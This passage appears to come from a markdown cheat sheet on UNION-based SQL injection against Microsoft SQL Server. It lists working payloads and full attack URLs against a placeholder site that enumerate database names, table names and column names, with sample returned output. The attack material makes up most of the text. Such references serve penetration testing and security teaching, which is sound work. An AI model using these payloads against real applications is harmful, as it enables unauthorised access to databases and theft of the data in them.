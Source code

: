 ```
https://insecure-website.com/products.php?gifts=xyz'UNION+SELECT DB_NAME(2),NULL+--
```

Returns
```
The Products_db costs
```
This is the second DB in the DB. This is also the current database our query is in.


### Table Enumeration 

To get table name from current database use 
```
UNION SELECT TABLE_NAME,NULL FROM information_schema.TABLES--
```

To get table name from other database use the following replacing "other_database"
```
UNION SELECT name,NULL FROM other_database..sysobjects WHERE xtype = 'U'--
```

For our example we want to get the tables of Users_db

```
https://insecure-website.com/products.php?gifts=xyz'UNION+SELECT+name,NULL+FROM+Users_db..sysobjects+WHERE+xtype+=+'U'--
```

Returns
```
The Users_tb costs
```

### Column Enumeration

To get column name from current database regardless of table in use 
```
UNION SELECT column_name,NULL FROM information_schema.COLUMNS--
```

To get column name from current database and specified table use the following replacing "table1" with specified table
```
UNION SELECT NULL,name,NULL FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'table1')--
```

To get column name from other database replace "other_database" and "other_table"
```
UNION SELECT other_database..syscolumns.name,NULL FROM other_database..syscolumns, other_database..sysobjects WHERE other_database..syscolumns.id=other_database..sysobjects.id AND other_database..sysobjects.name='other_table'--

```

Final request looks as follows
```
https://insecure-website.com/products.php?gifts=xyz'UNION+SELECT+Users_db..syscolumns.name,NULL+FROM+Users_db..syscolumns,+Users_db..sysobjects+WHERE+Users_db..syscolumns.id%3dusers_db..sysobjects.id+AND+Users_db..sysobjects.name%3d'Users_tb'--
```
